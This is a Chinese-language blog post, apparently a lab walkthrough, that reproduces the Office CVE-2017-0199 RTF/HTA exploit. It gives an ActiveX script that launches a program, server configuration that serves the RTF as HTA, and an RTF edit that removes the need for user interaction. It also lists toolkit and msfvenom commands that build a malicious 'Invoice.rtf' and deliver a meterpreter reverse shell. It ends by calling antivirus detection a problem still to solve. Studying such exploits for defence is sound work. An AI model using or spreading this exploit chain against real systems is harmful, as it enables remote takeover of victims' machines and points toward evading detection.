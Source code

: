 ```yaml
---
layout: post
title: "Office CVE-2017-0199复现"
date: 2017-11-24 0:0:0
categories: jekyll update
---
```

## 介绍
<p>
&emsp;** 本文介绍在Ubuntu 14.04服务器版本下复现office cve-2017-0199。**
</p>
## 环境
> ubuntu 14.04服务器版

## 目录
* [验证](#1)
* [取消交互](#2)
* [Get Shell](#3)


### <a name="1"></a>1、验证
&emsp;Step 1：安装apache2服务
<div align="center">
    <img src="/images/posts/office/1.png" >  
</div>

&emsp;Step 2：在网站根目录下创建1.rtf，内容如下：
```script
test789 
<script> 
var objShell = new ActiveXObject("wscript.shell"); objShell.Run("%SystemRoot%\\system32\\calc.exe"); 
</script>

```

&emsp;Step 3：验证apache的配置文件mime.types里有rtf的content type项
因为mime.types的位置可能因系统而不同，所以直接使用find命令查找位置
<div align="center">
    <img src="/images/posts/office/2.png">  
</div>

&emsp;查看该文件，可以看到
<div align="center">
    <img src="/images/posts/office/3.png">  
</div>

&emsp;Step 4：使用office 2013 pro 创建空白文档，然后点击“插入”  “对象”,
在文件名上填写完整的网页地址，选择链接到文件
<div align="center">
    <img src="/images/posts/office/4.png">  
</div>

&emsp;点击“确定”，然后在文档中可以看到 test789。
<div align="center">
    <img src="/images/posts/office/5.png" >  
</div>

&emsp;注：在此步中，很可能不成功，具体原因未知。
具体现象：在链接到1.rtf时显示找到路径，不存在该文件。但去链接同目录下的index.html文件时可以成功，成因未知。


&emsp;Step 5：将mime.types中的application/rtf   rtf 改成 application/hta   rtf
重启apache服务
<div align="center">
    <img src="/images/posts/office/6.png">  
</div>

<div align="center">
    <img src="/images/posts/office/7.png">  
</div>

&emsp;Step 6：双击对象
<div align="center">
    <img src="/images/posts/office/8.png">  
</div>

<div align="center">
    <img src="/images/posts/office/9.png" height=80%>  
</div>

<div align="center">
    <img src="/images/posts/office/10.png" width=80%>  
</div>

&emsp;可见成功利用`CVE-2017-0199漏洞`

-----------

### <a name="2"></a>2、取消交互
&emsp;为了`取消用户交互`，也就是让用户去双击
&emsp;Step 1：将文件另存为.rtf格式
<div align="center">
    <img src="/images/posts/office/11.png" width=80%>  
</div>

。。。。。直接被`卡巴`检测到恶意文件.
<div align="center">
    <img src="/images/posts/office/12.png" >  
</div>

&emsp;Step 2：用文本编辑器打开刚才保存的rtf格式文件，找到object标签所在地方
<div align="center">
    <img src="/images/posts/office/13.png">  
</div>

&emsp;把{object\objautlink\rsltpict 改成 {object\objautlink\objupdate\rsltpict

&emsp;保存文件再打开，这样就不用用户交互了。

&emsp;此时在虚拟机中新建一个空白文档，这时，在点击链接到文件后已经会自动弹出计算器了
虚拟机环境：win7，office 2010 pro
<div align="center">
    <img src="/images/posts/office/14.png">  
</div>

<div align="center">
    <img src="/images/posts/office/15.png">  
</div>

<div align="center">
    <img src="/images/posts/office/16.png">  
</div>
----------

### <a name="3"></a>3、Get Shell
&emsp;在kali中利用exploit
&emsp;Github地址：https://github.com/bhdresh/CVE-2017-0199

下载后，在情景1下实验

```python
1) Generate malicious RTF file
   # python cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
3) Start toolkit in exploit mode to deliver local payload
   # python cve-2017-0199_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
```


按以上命令依次运行
<div align="center">
    <img src="/images/posts/office/17.png" >  
</div>

<div align="center">
    <img src="/images/posts/office/18.png">  
</div>

&emsp;可证实该exploit可行。
&emsp;但生成的.rtf在执行时会被杀软报毒，需要解决。
